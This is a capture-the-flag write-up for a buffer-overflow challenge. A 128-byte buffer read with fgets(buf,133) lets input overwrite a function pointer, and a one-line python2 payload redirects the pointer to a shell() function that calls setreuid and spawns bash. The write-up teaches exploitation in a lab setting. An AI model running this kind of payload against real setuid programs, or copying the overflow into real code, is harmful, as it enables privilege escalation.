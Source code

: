 ```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

In this challenge, func `fgets` allows us input 132 characters but var `buf` only handles 128.

<br> So we can overwrite value of `func()` by address of `shell()` to get shell.

<br> Using gdb to get address of func `shell` is 0x08048516
<br>
![](BO_2.png)

```bash
cat <(python2 -c "print 'A' * 128 +'\x16\x85\x04\x08'") - | ./ch15
```

![](BO_2.1.png)
